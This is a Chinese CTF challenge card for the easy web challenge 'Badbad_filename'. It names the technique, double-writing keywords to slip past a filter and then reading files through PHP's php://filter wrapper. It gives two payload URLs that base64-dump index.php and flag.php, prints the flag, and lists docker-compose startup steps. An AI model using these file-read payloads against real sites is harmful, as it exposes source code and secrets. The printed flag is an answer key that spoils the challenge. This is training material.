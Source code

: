 - **题目名称：** Badbad_filename
- **题目类型：** WEB（23）
- **题目难度：** 容易
- **出题人：** itSssm3
- **考点：**

1. 双写绕过 + php伪协议读取源码

- **描述：** 小坏蛋~ 不能用坏坏的文件名噢~
- **flag：** XSCTF{d0ubLe_Wr1te_2_byPass}
- **Writeup：** 

payload如下

```
?filename=pphphp://filfilterter/read=convert.babasese64-encode/resource=index.pphphp
?filename=pphphp://filfilterter/read=convert.babasese64-encode/resource=flag.pphphp
```

- ### **容器启动方式：** 
* #### cd build/docker
* #### docker-compose up -d